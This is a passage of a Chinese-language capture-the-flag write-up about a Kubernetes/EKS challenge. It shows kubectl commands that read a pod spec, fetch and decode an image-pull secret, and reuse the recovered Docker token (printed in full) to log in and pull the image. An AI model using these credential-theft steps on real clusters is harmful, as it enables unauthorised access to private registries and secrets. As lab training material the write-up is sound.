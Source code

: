 这个权限下，我们无法列出 secrets，具体的 list get 的区别可以看看 stackoverflow 社区的小讲解 https://stackoverflow.com/questions/58159866/get-vs-list-in-kubernetes-rbac

所以我们可以先查看一下 pod 里有什么先

```bash
kubectl get pods -o yaml

apiVersion: v1
items:
- apiVersion: v1
  kind: Pod
  metadata:
	....
	name: database-pod-2c9b3a4e
    namespace: challenge2
  spec:
    containers:
    - image: eksclustergames/base_ext_image
      imagePullPolicy: Always
      name: my-container
      ......
    imagePullSecrets:
    - name: registry-pull-secrets-780bab1d
    nodeName: ip-192-168-21-50.us-west-1.compute.internal
    volumes:
    - name: kube-api-access-cq4m2
      projected:
        defaultMode: 420
        sources:
        - serviceAccountToken:
            expirationSeconds: 3607
            path: token
......
```

可以发现这里只有一个 pod，并且有 imagePullSecret 字段。 直接去获取对应的 secret 进行解密处理。登陆 docker 后，pull 当前 pod 的 image

```
kubectl get secrets registry-pull-secrets-780bab1d -o yaml 

[base64 decoded]
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlVI4NW1H{base64 enode}w=="}}}

# reuse the cred
docker login -u eksclustergames 
Password: dckr_pat_YtncV-R85mAAAAAAAACo
```

docker 登陆完成后，pull 当前 pod 的 images

```
docker pull docker.io/eksclustergames/base_ext_image
```
